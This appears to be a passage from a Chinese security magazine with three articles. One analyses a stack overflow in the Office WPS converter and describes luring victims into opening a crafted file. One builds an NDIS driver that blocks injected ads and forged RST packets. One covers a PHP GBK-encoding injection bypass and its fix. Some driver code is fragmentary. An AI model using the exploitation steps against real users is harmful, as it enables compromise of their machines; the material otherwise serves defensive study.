这个地址0x61091B32非常关键。从原理上讲，在溢出发生的紧邻前后曾经调用过某个函数，而返回地址就是该地址——这是我一直用着的定位溢出漏洞的方法，虽然有点笨，但是仔细想想确实是这样的，而且基本上“百发百中”！
图2 找到栈顶上的一个曾经被调用的函数返回地址

找到这个地址后，立刻到0x61091B32附近的代码看看，发现有两个被Call的函数，一个是wkcvgd01.61092A6F，另一个是wkcvgd01.61091A9C，溢出很可能就在其中的某个中发生，如图3所示。
图3 返回地址0x61091B32前的两个被Call的函数

于是按Ctrl+F2，再从头调试一次。这次要在拖入WPS文件之前，将OllyDBG中调试选项中的“Break on new module (DLL)”选项勾住，以便在程序载入C:\Program Files\Common Files\Microsoft Shared\TextConv\wkcvgd01.dll时停下来。然后按Ctrl+G跳到0x61091B20处下一个断点，再把刚才那个选项勾去，按F9。当停到0x61091B20时，观察一下栈，看是否已经溢出，是否出现了大片的90909090。如果没有的话，就说明还没有发生溢出。经过观察后，发现确实没有溢出，那么此时就需要按下F7，进入函数体内部单步执行。

进入函数内部后，当执行到图4中的被线条框住的循环代码时，感到一种将要溢出的危险，因为过了这个循环，不溢出就要RETN了，因此这段循环很可能就是溢出点。仔细观察这段循环复制的ESI和EDI，发现ESI是上面WPS文件中的jmp esp地址的前18个字节的地址，同时EDI是栈帧中的某个地址。不难看出这段代码的作用是把WPS文件中的header后18个字节和jmp esp地址，还有ShellCode一并复制到EDI指向的栈中。但在复制这些数据前，并没有检查源数据的大小，而这就是导致溢出的根本原因。
图4 真正的溢出点

## 漏洞利用

该漏洞属于典型的本地栈溢出漏洞，是一个关于文件处理不当的漏洞。要利用该漏洞，可以制作恶意的WPS文件，然后诱使攻击目标用Word打开这个文件，这样攻击目标就悄然地中招了。只要能诱使用户打开该文件，命中率极高，因为Office文档转换器是默认安装的。

如图5所示生成恶意WPS文件后，将这个文件通过某种方式（例如社会工程学）诱使攻击目标用Word打开该文件，就会中招。图6是打开了ShellCode后弹出计算器的一个WPS文件的情景。

虽然这个例子只是弹出了一个计算器，但是WPS文件中的ShellCode是可以更换的，若换为别的ShellCode，危害可不只是弹出个简单的计算器就完了。
图5 生成恶意WPS文件
图6 误打开了ShellCode后弹出计算器的一个WPS文件

不过对于我们分析漏洞的朋友来说，能看到计算器确实是一件很令人兴奋的事情了！

## 漏洞总结

通过以上对漏洞的分析和利用，我们搞清楚了该漏洞发生的根本原因，是Office转换器在处理WPS文件、从中读入TEXT section时，未检验其大小就直接复制到栈中，导致了栈溢出。

另外需要说明的是，本测试中所涉及到的C:\Program Files\Common Files\Microsoft Shared\TextConv\wkcvqd01.dll文件的版本是7.3.616.0，大小为852kB。如果读者在测试中没成功的话，可以把提供的wkcvqd01.dll文件复制到你的C:\Program Files\Common Files\Microsoft Shared\TextConv\路径下，覆盖掉原有的wkcvqd01.dll文件，应该就能够溢出成功了。当然了，在覆盖之前记得一定要把原先的wkcvqd01.dll文件备份一下喽。

前置知识：C语言、Windows DDK、TCP/IP  
关键词：会话劫持、数据报内容过滤、推送式广告

## NDIS过滤攻击——在广域网给会话劫持防范技术中的应用研究

文／图 robur

自2006年2月起，一种全新的广告推送形式现身于中国互联网。它不再存在于传统的Web页面中，而是寄生于庞大的网络数据流之中。没有人知道它从哪里被发出，也没有人知道它将在何时再次出现。它曾被网友痛骂，它曾被媒体曝光，但时至今日，很多人仍然对它束手无策，很多人仍然在“享受”着它每天数次“无微不至的关怀”。

这里所说的，就是“广域网会话劫持广告推送技术”。这个名称虽然显得冗长，却可以完全反映出这个技术的本质。该技术通过“会话劫持”手段，劫持客户端浏览器发起的HTTP会话，伪造服务器的响应，向客户端强制插入广告代码。又因该技术实现于对客户透明的TCP/IP分层结构中，因此客户端根本无法通过常规手段对其进行过滤或屏蔽。

鉴于上述情况，笔者认为有必要开发出一种可对广域网络会话劫持做出判断，并及时做出响应的系统，以净化互联网用户的终端环境，提高用户的信息安全防护能力。

会话劫持从攻击手段上可分为两类，其一是中间人（MITM）攻击，另一是注入（Injection）攻击。二者的主要区别在于，攻击者是否改变会话双方的数据流向。从攻击表现上，又可分为两类：其一是被动式劫持，另一是主动式劫持。二者的主要区别在于，是否取代会话的一方，并接管会话。

那么会话劫持究竟可以在何种网络中实施呢？会话劫持的特点，是需要使用嗅探技术分析网络中流经的数据包，才能伪造出一个合法的数据包，发送给参与会话的一方。

在传统的共享式网络中，所有的数据包都是以广播的形式存在的，任何一台计算机只需将网卡设置为混杂模式，就可以捕获所有在共享网络中传输的数据。因此，最适合进行会话劫持的是传统的共享式网络。

交换式网络采取点对点的传输机制，计算机只能收到广播和属于自己的数据包。但由于交换设备使用MAC进行目标的寻址，在配合ARP欺骗或非ARP欺骗技术的情况下，也可以实现交换环境下的会话劫持。

由于采用了新的客户端隔离技术，到目前为止，没有任何已知的技术可以在广域网的客户端上发起会话劫持攻击。但是，这并不意味着广域网是安全的。会话劫持完全可以发生在让你觉得不可思议的地方——比如某个骨干网的节点上，驳接了一台会话劫持设备。它监听所有通过该节点的数据包，并按照一定的规律进行劫持，插入广告代码。

## 会话劫持技术的基本理论

会话劫持是一种结合了网络数据嗅探与伪造的攻击手段。其目的是伪造会话中的一方，获得另一方的信任，从而获取敏感数据或代替其中一方进行某种操作。

下面，我们将对一次“会话劫持广告”过程进行重放。图1显示的是Sniffer捕获数据报的解码窗口，我们从中可以看到，客户机192.168.1.26向服务器222.169.226.199发起了一个HTTP会话，进行TCP三次握手后，建立了一个在客户机和服务器之间的TCP连接。通过查看数据包的详细解码，可得知服务器返回SYN+ACK，耗时166ms，TTL为45。接着客户端发送了GET请求，很明显该请求已经被会话劫持设备捕捉到了。会话劫持设备分析了TCP首部，计算出了客户端期望的SEQ（序列号）和ACK（应答序号）。仅仅在39ms之后，一个由会话劫持设备伪造的响应数据包就抵达了客户端（图1中第5个数据包）。通过详细解码得知TTL为52（任何服务器都不会有如此迅速的响应，并且数据包TTL相差如此之大）。

| SourceAddress | DestAddress | Info |
|---|---|---|
| 192.168.1.26 | 222.169.226.199 | TCP / HTTP ... |

图1

如图2所示，在经历了187ms之后，服务器的真正响应才到达客户机。由于该数据包的SEQ和ACK已经被伪造的数据包占用，因此根据TCP/IP协议的机制，该数据包被当作重复发送的数据包，做丢弃处理。

| Src | Dst | Expert Info |
|---|---|---|
| 222.169.226.199 | 192.168.1.26 | Window Size Exceeded / HTTP Data |

图2

图3是会话劫持设备伪造的数据包中包含的代码，用于打开一个新窗口，并且刷新当前页面。从客户端的角度来看，其效果就像一个普通页面中的弹出窗口一样，实现可谓非常之隐蔽。这还只是比较“善意”的代码，更有甚者将客户端欲访问的网站嵌入一个Frame中，极个别的甚至进行“挂马”，令访问者中招。

```text
HTTP/1.1 200 OK
Content-type: text/html
...<meta http-equiv="Refresh" ...>
<script language="JavaScript">
window.open(...)
</script>


```

图3

图4是一个简化的网络模型，指示出了会话劫持设备在广域网络中的位置。
## 基于数据报内容的会话劫持检测方法

如何判断已经发生了会话劫持，是处理类似事件的关键问题。下面，我们将来讨论一个基于数据报内容的判断方法。该方法其实与反病毒软件中的特征码检查原理是一致的——检查数据中是否包含了预先定义的特征码。当然，同反病毒技术中的特征码检查一样，如果单纯地检查特征码的话，虽然可以通过不断更新特征库来防止漏报，但是很可能会造成误报。这就需要我们通过其他的一些手段进行辅助性的检查，以防止误报的发生。其实，这可以利用HTTP首部中包含的某些字段作为辅助判断。

图5是一个“真正的”HTTP首部，我们可以与图3伪造的HTTP首部进行对比。伪造的HTTP首部中，只包含了最必需的HTTP协议版本、HTTP状态代码以及MIME类型。而“真正的”HTTP首部中，却包含了大量的信息。除了必要的3项外，还包括了服务器类型、日期以及传输数据的编码类型等。

```text
HTTP/1.1 200 OK
Server: Zeus/4.2
Date: Tue, 23 Jan 2007 ...
Content-Type: text/html
Transfer-Encoding: chunked
X-Powered-By: PHP/4.3.11
```

图5

当然，会话劫持设备也可以利用一些“可变的”或“随机的”方法，类似于计算机病毒的变形技术，来绕过特征码检查。但是这里必须要提的是，如果这么做，将会消耗会话劫持设备大量的资源，笔者认为不会有人轻易这么做的。

另外，如果客户端使用复杂的算法进行会话劫持检测，那么可能将会加重客户端系统负担。荷，导致客户端系统运行缓慢或网络延迟增加，这都是我们不期望发生的事情。因此，就目前的情况而言，采用（有针对性优化过的）特征码检查，并辅以 HTTP 首部检查，是检测 HTTP 会话劫持的最优方法。

## 构建 NDIS 中间层驱动过滤数据包

在网络数据包的识别和过滤方面，笔者曾经做过许多尝试，包括使用原始套接字（RAW Socket）、IP 帮助函数（IP Helper）以及服务提供者接口（SPI）等，但都没有取得良好的效果。于是，笔者把目光转向了功能更强大的 NDIS。

NDIS，即网络驱动接口规范。它在系统底层为 NIC（Network Interface Cards）实现了标准的 API（Application Program Interface），同时，NDIS 提供了丰富的函数以及遵循 C 语法的程序设计规范，这让我们可以轻易设计出功能强大的过滤驱动。

关于 NDIS 的基本原理，与本文的内容并无太大关系，况且有很多的文献可以参考，在此笔者就不再详述，请读者参阅相关文献。

在本文中，我们采用微软 Windows Server 2003 DDK 中自带的 passthru 中间层驱动实例。在下文中，我们将对该驱动进行修改及完善，让它可以完成我们先前提及的数据包内容过滤功能。注意，以下代码仅为截取的代码片段，完整的代码请参考源代码。

### 1）从磁盘读取特征码文件

不同地区的“会话劫持广告”在具体表现上有许多不同，不可能有具备广谱性的特征码，因此我们需要提供一个用户接口，让用户可以自行定制特征码，满足他们的不同需求。NDIS 提供了两个函数：NdisOpenFile 和 NdisMapFile，前者返回被打开文件的句柄，默认的读取位置在 `%systemroot%\system32\drivers\`，后者将一个已打开文件的内容映射到内存中。

```c
NDIS_STATUS filestatus;   // 状态代码
NDIS_HANDLE filehandle;   // 文件句柄
UINT filelength;          // 文件长度
NDIS_STRING filename;     // 文件名
```

```c
NDIS_PHYSICAL_ADDRESS MinusOne = NDIS_PHYSICAL_ADDRESS_CONST(-1, -1);
PUCHAR filebuffer; // 缓存
NdisInitializeString(&filename, "Filter.txt");
NdisOpenFile(&filestatus, &filehandle, &filelength, &filename, MinusOne);
if (filestatus == NDIS_STATUS_SUCCESS) {
    DbgPrint("NdisOpenFile Success!\n");
    NdisMapFile(&filestatus, &filebuffer, filehandle);
    if ((filestatus == NDIS_STATUS_SUCCESS) && (filebuffer != NULL)) {
        // 在这里处理文件内容
        NdisUnmapFile(filehandle);
    } else {
        DbgPrint("NdisMapFile Fail...\n");
    }
    NdisCloseFile(filehandle);
} else {
    DbgPrint("NdisOpenFile Fail...\n");
}
```

虽然 NdisMapFile 通过返回一个 NDIS_STATUS 状态代码作为判断是否成功映射文件的标志，但有些时候仍然会出现错误。有人反映过 NdisMapFile 返回了 NDIS_STATUS_SUCCESS 状态代码，但是指定的缓存中仍然没有任何数据。因此，是否映射成功，需要同时判断 NDIS_STATUS 和缓存。另外，按照 DDK 开发文档的说明，NdisOpenFile 及其相关的函数，只能在驱动初始化 MiniPort 的过程中调用。所以，我们将其放在 miniport.c 文件的 MPInitialize() 函数中。

### 2）建立一个链表结构存储特征码

我们已经得到了特征码文件的全部内容，现在需要对其进行处理，以方便后面的程序进行模式匹配操作。C 中存储数据的形式有很多种，但是针对不定量的同一类型变量，笔者还是更青睐于链表结构。我们需要在多个函数之间反复调用这个链表中的数据，因此设置其为全局变量。为防止潜在的冲突，链表一旦创建完成，直到驱动被卸载，都不要修改它。

```c
struct node
{
    char buffer[20];
    // 分配20个字节，按需修改
    struct node *next;
} *buffer_head;

UINT x=0, y=0;
ULONG filebuffer_len=0;
// 缓冲(特征码片段)长度
struct node *buffer_p, *buffer_q;
filebuffer_len=(ULONG)strlen((char*)filebuffer);
buffer_head=0;
while (x<filebuffer_len-1)
{
    if ((((char*)filebuffer)[x] & 0xff)==0xD &&
        (((char*)filebuffer)[x+1] & 0xff)==0xA)
    {
        if ((x-y<20) && (x-y>0))
        {
            buffer_p=(struct node*)MmAllocateNonCachedMemory(sizeof(struct node));
            NdisMoveMemory(&buffer_p->buffer, filebuffer+y, x-y);
            buffer_p->next=0;
            if (buffer_head==0)
            {
                buffer_head=buffer_p;
                buffer_q=buffer_head;
            }
            else
            {
                buffer_q->next=buffer_p;
                buffer_q=buffer_p;
            }
        }
        if (x+2<filebuffer_len)
        {
            y=x+2;
            x=y;
        }
    }
    else
    {
        ...
    }
}
```

```c
break; // 处理完毕，跳出循环
}
continue; // 直接进入下次循环
}
if (x+2==filebuffer_len) // 如果读到最后一个字节
{
    if ((x-y+1<20) && (x-y+1>0)) // 限制长度
    {
        buffer_p=(struct node*)MmAllocateNonCachedMemory(sizeof(struct node));
        NdisMoveMemory(buffer_p->buffer, filebuffer+y, x-y+1);
        buffer_q->next=buffer_p;
        buffer_q=buffer_p;
    }
    break; // 读到最后一字节，无论如何都跳出循环
}
x++;
```

上面写的是一个标准的链表创建过程，如果大家觉得阅读有困难，请参阅 C 语言标准链表操作。在上面出现的 MmAllocateNonCachedMemory 函数，与 C 语言中 malloc 函数的作用是相同的，用于为链表中的一个节点分配需要的内存。需要强调的是，该函数需要包含 ntddk.h 文件才能使用。到现在为止，本程序的特征码过滤规则就已经创建完毕了。它存放在一个全局链表中，需要的时候可以直接使用一个 while 循环调用它。

### 3）读取封包中的数据

在 protocol.c 文件中，系统提供了两个用于收包的函数，分别是 PtReceive 与 PtReceivePacket。二者用于不同的情况，这主要取决于网卡驱动的行为。但它们都可以提供一个 PNDIS_PACKET 结构，这个结构中存放着一个完整的数据包，这是我们所需要的！当然，我们还需要一个函数，把 PNDIS_PACKET 中的数据包内容提取出来，存储为一个指针字符串，方便后面调用。

```c
VOID
FltReadPacketData(
    IN PNDIS_PACKET pPacket,
    OUT PUCHAR *pBufferIn)
{
    PUCHAR pBuf;
    UINT   BufLength;
    ...
}
```

```c
MDL *pNext;
UINT i;
if (pPacket == NULL || pBufferIn == NULL)
{
    DbgPrint("PtReadPacketData: Non-Input!");
    return;
}
NdisQueryBufferSafe(pPacket->Private.Head, &pBuf, &BufLength, NormalPagePriority);
NdisMoveMemory(pBufferIn, pBuf, BufLength);
i = BufLength;
pNext = pPacket->Private.Head;
for (;;)
{
    if (pNext == pPacket->Private.Tail)
        break;
    pNext = pNext->Next; // 指针后移
    if (pNext == NULL)
        break;
    NdisQueryBufferSafe(pNext, &pBuf, &BufLength, NormalPagePriority);
    NdisMoveMemory(pBufferIn+i, pBuf, BufLength);
    i += BufLength;
}
```

```c
{
    Status = NDIS_STATUS_SUCCESS;
    NdisFreeMemory(pPacketContent, 2000, 0);
    // 释放内存
    break;
}
NdisFreeMemory(pPacketContent, 2000, 0);
// 释放内存
}
else
// LookAheadBuffer没有包括全部数据(第三种情况)
{
    NdisTransferData(&Status,
        pAdapt->BindingHandle,
        MacReceiveContext,
        0,
        PacketSize,
        Packet,
        &BytesTransferred);
    if (Status==NDIS_STATUS_SUCCESS)
    // NdisTransferData()调用成功
    {
        DbgPrint("l2: TransferData Complete!");
        if (Packet!=NULL)
        {
            // 这里处理NdisTransferData得到的封包,有条件的读者请自行测试
        }
    }
    else if (Status==NDIS_STATUS_PENDING)
    {
        DbgPrint("l2: TransferData Pending!");
        // 在这里调用PtTransferDataComplete
    }
    else
    {
        DbgPrint("l2: TransferData Fail!");
    }
    NdisFreeMemory(pPacketContent, 2000, 0);
    // 释放内存
}
```

在一个 PNDIS_PACKET 结构中，可能指示出了不止一个 Buffer。我们需遍历这些 Buffer，并把它们的数据连接起来，这样就组成了一个完整的数据包，以 PUCHAR 类型存储。

### 4）其他的数据包内容来源

除了上述内容中 PNDIS_PACKET 结构中的数据，我们还有另外一个数据包内容的来源，那就是 PtReceive 函数。在该函数中，有时调用 NdisGetReceivedPacket() 并不能得到一个 PNDIS_PACKET 结构，因此 PtReceive 函数提供了另一种处理机制。

```c
if (PacketSize <= LookAheadBufferSize &&
   // 如果LookAheadBuffer包含了全部数据(第一种情况)
   HeaderBufferSize >= 14) // 如果带有以太网帧头
{
    NdisMoveMemory(pPacketContent, HeaderBuffer, HeaderBufferSize); // 复制数据报头
    NdisMoveMemory(pPacketContent + HeaderBufferSize, LookAheadBuffer, LookAheadBufferSize);
    // 复制前视缓冲,现在就得到了一个PUCHAR型变量,它存有完整的数据包内容
    if (CheckPacket(pAdapt, pPacketContent, 11, HeaderBufferSize)==FALSE)
    {
        ...
    }
}
```

PtReceive 函数除了能得到一个 PNDIS_PACKET 结构之外，还会出现两种情况。其一，是没有得到 PNDIS_PACKET 结构，但是在数据报文首部和前视缓冲区中有完整的数据，因此复制二者的内容即可得到完整的数据包；其二，是既没有得到 PNDIS_PACKET 结构，前视缓冲区中也没有完整的数据，这时需要调用 NdisTransferData() 函数来解决这个问题。当调用 NdisTransferData() 成功后，即可得到一个 PNDIS_PACKET 结构的数据报。但是第二种情况非常罕见，笔者在相当长的时间里从未遇到，无法测试，故在这里尚不能做深入研究。

### 5）过滤函数

通过上面的工作，无论在哪个收包的过程中，我们都可以得到一个 PUCHAR 型变量，这里面存储着一个完整的数据包。所谓完整，是指该 PUCHAR 型变量包括数据包的首部以及它的缓冲区。在 802.3 以太网中，这个变量就是 14 字节的以太网首部加上后面的所有载荷。有了一个完整的数据包，便可以对数据包中的每个比特进行处理。在下文中，我们仅针对前文中“会话劫持广告”进行过滤。

```c
// 过滤函数
BOOLEAN
CheckPacket(
    IN PADAPT pAdapt,
    IN PUCHAR pPacketContent,
    IN UINT Interface,
    IN UINT HeaderLen
)
{
    PUCHAR str1="HTTP", str2,str3,str4,str5,str6,str11;
    PUCHAR pstr;
    UINT IpLen,TcpLen;
    UINT i=0, j=0;
    struct node *tmp_head;
    NdisDprAcquireSpinLock(&pAdapt->Lock);

    if((((char *)pPacketContent)[HeaderLen-2] & 0xff) == 8 &&
       (((char *)pPacketContent)[HeaderLen-1] & 0xff) == 0 &&
       (((char *)pPacketContent)[HeaderLen+9] & 0xff) == 6)
    {
        IpLen=4*(((char *)pPacketContent)[HeaderLen] & 0x0f);
        TcpLen=(((char *)pPacketContent)[HeaderLen+IpLen+12] & 0xf0)/4;
        if(((char *)pPacketContent)[HeaderLen+IpLen] == 0 &&
           ((char *)pPacketContent)[HeaderLen+IpLen+1] == 80)
        {
            pstr=pPacketContent+HeaderLen+IpLen+TcpLen;
            // 以太网头+IP首部+TCP首部
        }
    }
```

```c
if(strstr((char *)pstr,(char *)str1)!=NULL)
{
    pstr=pstr+9;
    str2="200 OK";
    str3="302 ";
    str4="Date:";
    str5="Server:";
    str6="no-cache";

    if(strstr((char *)pstr,(char *)str2)!=NULL || strstr((char *)pstr,(char *)str3)!=NULL)
    {
        if(strstr((char *)pstr,(char *)str6)!=NULL &&
           strstr((char *)pstr,(char *)str5)==NULL &&
           strstr((char *)pstr,(char *)str4)==NULL)
        {
            tmp_head=buffer_head->next;
            while(tmp_head!=0)
            {
                if(strstr((char *)pstr,(char *)tmp_head->buffer)!=NULL)
                {
                    DbgPrint("%d: AD-A Attack Blocked!, IpLen=%d, TcpLen=%d\n%s", Interface, IpLen, TcpLen, (char *)pstr);
                    NdisDprReleaseSpinLock(&pAdapt->Lock);
                    return FALSE;
                }
                tmp_head=tmp_head->next;
            }
        }

        if(strstr((char *)buffer_head->buffer, "1"))
        {
            tmp_head=buffer_head->next;
            while(tmp_head!=0)
            {
                if(strstr((char *)pstr, (char *)tmp_head->buffer)!=NULL)
                {
                    DbgPrint("%d: AD-C Attack Blocked!, IpLen=%d, TcpLen=%d\n%s", Interface, IpLen, TcpLen, (char *)pstr);
                    NdisDprReleaseSpinLock(&pAdapt->Lock);
                    return FALSE;
                }
            }
        }
    }
}
```

```c
tmp_head = tmp_head->next;
}
}
// End_检查HTTP状态代码
// End_如果是HTTP协议
// 伪造RST报文
if ((((char *)pPacketContent)[HeaderLen+IpLen+13] & 0x04) == 4 &&
    (((char *)pPacketContent)[HeaderLen+4] == 0))
{
    if ((((char *)pPacketContent)[HeaderLen+5] & 0xff) == 0x40 ||
        (((char *)pPacketContent)[HeaderLen+5] & 0xff) == 0x81 ||
        (((char *)pPacketContent)[HeaderLen+5] & 0xff) == 0x00 ||
        (((char *)pPacketContent)[HeaderLen+5] & 0xff) == 0x01 ||
        (((char *)pPacketContent)[HeaderLen+5] & 0xff) == 0x02)
    {
        DbgPrint("%d: RST Packet Blocked!... identification=%d", Interface,
                 ((char *)pPacketContent)[HeaderLen+5] & 0xff);
        NdisDprReleaseSpinLock(&pAdapt->Lock);
        return FALSE;
    }
}

// 伪造RST报文 RST且TCP紧急指针总是00 01
if ((((char *)pPacketContent)[HeaderLen+IpLen+13] & 0x04) == 4 &&
    (((char *)pPacketContent)[HeaderLen+IpLen+18] & 0xff) == 0x00 &&
    (((char *)pPacketContent)[HeaderLen+IpLen+19] & 0xff) == 0x01)
{
    DbgPrint("%d: RST Packet Blocked!", Interface);
    NdisDprReleaseSpinLock(&pAdapt->Lock);
    return FALSE;
}

// 阻止所有RST包
if ((((char *)pPacketContent)[27+IpLen] & 0x04) == 4)
{
    DbgPrint("%d: Blocked All RST Packet!", Interface);
    NdisDprReleaseSpinLock(&pAdapt->Lock);
    return FALSE;
}

// 单独针对TTL过滤
if ((((char *)pPacketContent)[HeaderLen+8] & 0xff) == 0xff)
{
    DbgPrint("%d: CangZhou_2008!", Interface);
    NdisDprReleaseSpinLock(&pAdapt->Lock);
    return FALSE;
}
} // End_反插入广告
}

// End_获得IP首部和TCP首部长度
NdisDprReleaseSpinLock(&pAdapt->Lock);
return TRUE;
}
```

首先，我们可以看到，程序通过读取数据包中关键的位置信息，来判断它是否带有HTTP协议，进而对HTTP首部以及特征码进行检查。但是鉴于某些会话劫持伪造的HTTP数据包，其首部与普通的HTTP数据包无异，难以通过HTTP首部进行判断，因此我们创建了一个“强制匹配模式”，即跳过对HTTP首部的检查，直接检查数据中是否含有指定的特征码。

其次，我们还写了一段代码用于处理伪造的RST数据包。根据TCP协议的机制，如果会话过程中一方发出了RST数据包，那么本次会话就会被复位。由于众所周知的原因，某些网络节点上的设备经常会采用这个方法来阻断客户端对某个网站/网页的浏览。经过长期的分析，可以得知这种阻断分为两种：其一是向服务器和客户端同时发送RST数据包，这种情况是无法在客户端防止的；其二是仅仅向客户端发送RST数据包，来简单地阻断用户的访问，我们可以通过检测这些具有明显特征的RST数据包，并将其丢弃，来保证正常的TCP会话不受干扰或阻断。

综上所述，我们可以通过调用 `pPacketContent` 中的某个字符，或者某个 bit，来解码数据包中的某个信息。通过平时使用网络分析软件分析出的结果，进行非常有针对性的检测和过滤，来达到我们的目的。

### 6）过滤函数检查并进行丢包

到现在，所有的过程只剩下最后一步了，就是要在 passthru 的两个收包函数中，调用过滤函数进行数据包的检查，如果符合过滤规则，就将其丢弃。下面是在 PtReceive 中的部分。

```c
if (CheckPacket(pAdapt, pPacketContent, 10, HeaderBufferSize) == FALSE) // 检查过滤规则
{
    Status = NDIS_STATUS_SUCCESS;
    // 直接返回NDIS_STATUS_SUCCESS，丢包
    NdisFreeMemory(pPacketContent, 2000, 0);
    // 释放内存
    break;
}
```

下面是在 `PtReceivePacket` 中的部分。

```c
if (CheckPacket(pAdapt, pPacketContent, 2, HeaderLen) == FALSE) // 检查过滤规则
{
    NdisFreeMemory(pPacketContent, 2000, 0);
    return 0; // 丢包
}


```

在这里必须明确一个观点，并没有用于丢弃封包的 NDIS API 函数，所谓丢包是指不向下发送或向上指示这个包。

### 7）驱动程序的编译和安装

若要编译本程序，需要安装 Windows Server 2003 DDK。安装之后，相应地修改 `\3790.1830\src\network\ndis\passthru\driver` 下的文件。之后，在开始菜单 `Development Kits\Windows DDK 3790.1830\Build Environments` 中，可以进入相应的编译环境。在此，特别提示一下 Free 和 Checked 两种环境的差别。Free 相当于发行版本，Checked 相当于调试版本。前者编译生成的二进制文件经过优化，而后者可以在运行的过程中输出更多的调试信息。

选择进入编译环境后，会显示一个 CMD 窗口。转到目录 `\3790.1830\src\network\ndis\passthru\driver`，使用 `build -cz` 命令即可快速编译。关于 build 命令有很多参数，请读者自行参考。如编译过程中出现错误，则会给出详细的错误原因和错误位置。编译成功后，在当前目录下就会生成一个新的文件夹，里面有编译好的 `passthru.sys` 文件。复制该文件以及 driver 目录下的 `netsf.inf` 与 `netsf_m.inf` 两个文件至同一目录，即完成了安装本驱动的必备条件。

若要安装本驱动（编译时注意编译环境，非本平台的驱动不兼容），务必首先把上文提及的 Filter.txt 编辑完毕，并放入 `%systemroot%\system32\drivers\`。然后打开某个网络连接的属性页，点击“安装”按钮，双击“服务”。在打开的窗口中，选择“从磁盘安装”，浏览 `netsf.inf` 文件，选择后确定。会显示一个服务（服务名称根据 netsf.inf 中的设置而定），选择后即可完成安装。若安装成功，在网络连接的属性页中，会显示该驱动。

### 8）监视驱动的运行

驱动程序载入后，即会完全按照规则执行，用户对它的执行过程不可干预，但可监视。在上文中，我们在代码的很多位置放置了 `DbgPrint()` 语句，就是为了输出 Debug 信息供用户参考。捕捉 `DbgPrint()` 输出的信息，有很多工具可以完成。这里推荐一个最简单的工具 DebugView，它可以轻易捕捉内核或 Win32 程序发出的 Debug 信息，并具有很好的兼容性。

驱动程序工作后，DebugView 截获的信息如图6所示，注意图中工具栏的按钮状态。
图6

## 结语

至此，我们已经成功地将 passthru 驱动按照自己的需要修改，并编译安装。但是这仅仅是一个雏形，还有更多的功能可以开发。比如添加一个 Win32 的用户界面，外部定义更详细的过滤规则等。

本文相关驱动采用 Windows Server 2003 DDK 编译，操作系统为 Windows Server 2003 Enterprise SP2，源代码编辑器采用 Visual Studio .NET 2003 SP1。

会话劫持技术在不正确的应用下可能触犯法律，请从善意的、合法的角度来理解或实践本文阐述的技术内容。即使本文并非阐述如何应用会话劫持技术，笔者不对文中涉及的驱动程序之可靠性做任何明示或暗示的担保，请勿将其应用于生产环境中。笔者不为因对误解文章内容或将其错误运用而产生的纠纷承担任何责任！

前置知识：PHP  
关键词：注入、字符编码绕过、类型转换、0Day
## PHP的后注入时代

### ——DeDe、PHPCMS、PHP168三款PHP系统漏洞分析

文/图 Cschi

注入自从被发现以后，就成为攻击网站、服务器的重要方法之一，无数网站、服务器纷纷落马，被挂马、入侵、控制。目前随着人们安全意识的增强，注入已渐渐远离昔日风声鹤唳的年代，成为强弩之末。由于凭借 Magic_quotes_gpc 转义引号的天险，PHP 语言在滚滚注入硝烟中也算安得一隅……PHP 也不例外，这次爆出的“PHP 字符编码绕过漏洞”几乎危及所有采用双字节编码的 PHP 系统……

有些人是不愿共享，宁愿烂在地里；另外一些则是用来牟利。“看来自己两者都不属于吧，所以直接给爆出来了。”我们知道使用双字节编码的国家（地区）并不多，我国就是首当其中的一个，所以对此问题更不敢私藏了……本文所涉及的问题是必须注意和解决的，正所谓“前车之鉴，后事之师”。

欣慰的是，当此漏洞被公布后，国内大型 PHP 站点相继在第一时间做了修补，并发布了补丁，这也算是对国内安全技术的促进吧……

系统中的漏洞，我们庆幸的是有机会进行修补，亡羊必须补牢！魔高一尺，道高一丈，我们必须探讨一下防范此漏洞的方法，有攻必有防，这也再次旁证了攻防结合的辩证关系。

PHP 字符编码绕过漏洞的防范，其实《双》一文中提及的“双字节编码环境”应该是 MySQL 的语言环境，这里我们必须了解 MySQL 从 PHP 获取语句——执行——返回结果给 PHP 的全过程。MySQL 从 4.1 起增加了以下 3 个系统变量：

```text
character_set_client: 客户端字符集
character_set_connection: 客户端与服务器端连接采用的字符集
character_set_results: SELECT 查询返回数据的字符集
```

当 PHP 与 MySQL 建立连接后，它发送给 MySQL 的数据采用的是什么字符集必须由 character_set_client 指定，但是 MySQL 得到的这个字符集并不立即转换为存储在数据库中的那个字符集，而是先转换为 character_set_connection 变量指定的一个字符集，再转换为数据库默认的字符集……这个数据被输出时，又要由数据库默认字符集转换为 character_set_results 指定的字符集。character_set_connection 变量作用我们无需深究，但是必须清楚一点：PHP 发送给 MySQL 的数据（如 SQL 语句）被转换成 character_set_client 变量指定的字符集，然后被 MySQL 执行。

所以“\”字符能否被合并编码成双字节字符，`character_set_client` 变量起着决定性的作用。一旦 `character_set_client` 变量被设置为“GBK”等双（多）字节语言编码，此漏洞便被触发。

因此，防范此漏洞的方法其实也很简单，就是设置 `character_set_client` 变量为 `binary`！PHP 提交的数据是啥就是啥！基本语句如下：

```php
if ($server > '4.1' && $GLOBALS['charset']) {
    mysql_query("SET character_set_connection=".$GLOBALS['charset'].",character_set_results=".$GLOBALS['charset'].",character_set_client=binary", $this->sql);
}
```

其中，`$server` 和 `$charset` 根据实际修改。对于存在此漏洞的网站，只要照此修改数据库连接字符集即可，比如 DeDeCMS，只要将 `/include/pub_db_mysql.php` 文件作如下修改便可防范此漏洞。

```php
if($mysqlver>4.0)
    @mysql_query("SET NAMES '".$GLOBALS['cfg_db_language']."'", $this->linkID);
// 将此句注释掉，增加如下语句即可
if ($mysqlver > '4.1' && $GLOBALS['cfg_db_language']) {
    mysql_query("SET character_set_connection=".$GLOBALS['cfg_db_language'].",character_set_results=".$GLOBALS['cfg_db_language'].",character_set_client=binary", $this->linkID);
}
// 或者增加如下语句
if($mysqlver>4.1) @mysql_query("SET NAMES '".$GLOBALS['cfg_db_language']."',character_set_client=binary", $this->linkID);


```

- 1) `character_set_connection` 必须与表的编码（或建库编码）一致，否则会提示 `Illegal mix of collations`。`character_set_results` 与 `character_set_connection` 保持相同即可。
- 2) 慎用 `SET NAMES`，因为 `SET NAMES` 实际上同时设置了 `character_set_client`、`character_set_connection`、`character_set_results` 这 3 个系统变量。

尽管此漏洞可能会引起国内 PHP 的一场安全风波，国内数款知名 CMS 没能幸免。

磨一时的注入毕竟已成昔日黄花，PHP 也不例外地步入后注入时代。本文试图通过对目前国内几款比较流行的 PHP 系统漏洞剖析，探索发现和利用 PHP 注入的思路和方法。

